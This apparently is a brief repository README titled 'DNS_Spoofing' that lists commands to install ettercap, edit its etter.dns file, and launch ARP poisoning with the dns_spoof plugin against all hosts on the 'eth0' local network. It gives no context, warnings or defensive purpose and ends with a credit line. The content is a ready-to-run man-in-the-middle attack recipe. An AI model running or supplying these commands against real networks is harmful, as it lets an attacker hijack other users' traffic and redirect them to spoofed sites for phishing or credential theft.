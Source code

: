 # DNS_Spoofing

* sudo apt-get install ettercap-text-only

* sudo apt-get install ettercap-graphical

* pico /etc/ettercap/etter.dns

* ettercap -T -q -M arp -i eth0 -P dns_spoof ///

# Credits

* Rodrigo
